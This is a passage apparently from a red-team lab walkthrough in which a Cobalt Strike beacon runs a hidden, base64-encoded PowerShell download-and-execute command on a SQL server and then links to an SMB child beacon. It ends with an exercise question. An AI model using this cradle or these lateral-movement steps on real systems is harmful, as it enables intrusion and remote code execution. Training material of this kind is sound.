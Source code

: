 ```powershell
[*] Executing 'powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=' as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433.

[12/14 00:44:51] [+] received output:
[X] ERROR: Execution Timeout Expired.  The timeout period elapsed prior to completion of the operation or the server is not responding..
```
this will eventually `timeout` however that doesn't matter.

#### Linking to SMB Payload
`link` to the `smb` payload
```powershell
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-1337imherebitch
[*] Tasked to link to \\sql-2.dev.cyberbotic.io\pipe\TSVCPIPE-1337imherebitch
[+] host called home, sent: 76 bytes
[+] established link to child beacon: 10.10.122.25
```
What payload would you use if port 445 was closed?  Experiment with using the pivot listener here instead of SMB.

